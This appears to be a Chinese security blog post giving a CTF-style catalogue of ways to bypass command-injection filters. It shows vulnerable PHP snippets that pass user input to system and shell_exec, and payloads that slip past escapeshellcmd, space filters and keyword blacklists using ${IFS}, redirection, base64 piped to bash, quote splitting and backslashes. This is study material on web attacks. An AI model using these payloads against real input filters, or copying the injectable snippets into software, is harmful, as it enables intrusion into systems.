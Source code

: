 ```yaml
---
title: 命令执行的一些绕过技巧
date: 2017-08-15 19:05:33
tags: [php,代码审计,代码执行]
categories: Web Security
copyright: true
---
```

# 0x01 绕过escapeshellcmd
## 法一：win下执行bat
```php
<?php
$command = 'dir '.$_POST['dir'];
$escaped_command = escapeshellcmd($command);
var_dump($escaped_command);
file_put_contents('out.bat',$escaped_command);
system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id");
```
之后该语句会变成
```
echo 繺;id
```
从而实现 id 命令的注入。

# 0x02 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 0x03 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

## 法三： base64编码
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ echo "Y2F0IGZsYWc="|base64 -d|bash
nice day
```
## 法四： 单引号、双引号
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ c""at flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ c""at fl""ag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ c""at fl''ag
nice day
```
## 法五：反斜线 \
payload:
```
ubuntu@VM-207-93-ubuntu:~$ c\at fl\ag
nice day
```

# 0x04 无回显

# 0x05 长度限制
```php
<?php
if(strlen($_GET[test])<8){
echo shell_exec($_GET[test]);
}
?>
```
## 文件构造
payload1:
```
a>wget
```
payload2:
```
1>wget
```
payload3:
```
>wget
```
将会创建一个名字为wget的空文件。payload1会报错，payload2不会报错。.





# 0x06 LINUX下一些已有字符
+ ${PS2} 对应字符 '>'
+ ${PS4} 对应字符 '+'
+ ${IFS} 对应 内部字段分隔符
+ ${9} 对应 空字符串

# 0x07 工具
+ [shelling
](https://github.com/ewilded/shelling)

# 0x08 Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)
+ [Mathias:命令执行的bypass技巧](http://www.math1as.com/index.php/archives/484)

